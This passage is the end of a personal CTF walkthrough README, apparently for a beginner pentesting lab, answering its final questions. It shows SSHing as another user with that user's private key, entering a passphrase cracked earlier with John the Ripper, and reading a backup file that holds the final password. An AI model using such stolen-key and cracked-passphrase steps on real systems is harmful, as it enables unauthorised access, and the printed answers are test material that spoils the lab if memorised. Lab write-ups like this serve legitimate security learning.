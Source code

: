 # 9  What is the name of the other user you found(all lower case)?

kay

# 10. If you have found another user, what can you do with this information? 

# 11. What is the final password you obtain?

If i tried to ssh directly as Kay, I failed. Instead ssh from jan. SSH to Jan as number 6 show, and then

```bash
ssh -i /home/kay/.ssh/id_rsa kay@10.10.175.26
```
You will be prompted with
```bash
Enter passphrase for key '/home/kay/.ssh/id_rsa': 
```
And you type 'beeswax' from John The Ripper earlier

And you're in as Kay

do ls and you'll find 'pass.bak', cat 'pass.bak' adn you find the password which is 
```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

Done


This Readme is intended for future me, but anyone wcan use this as how you want  and ofc if you understand my english

Thank you.
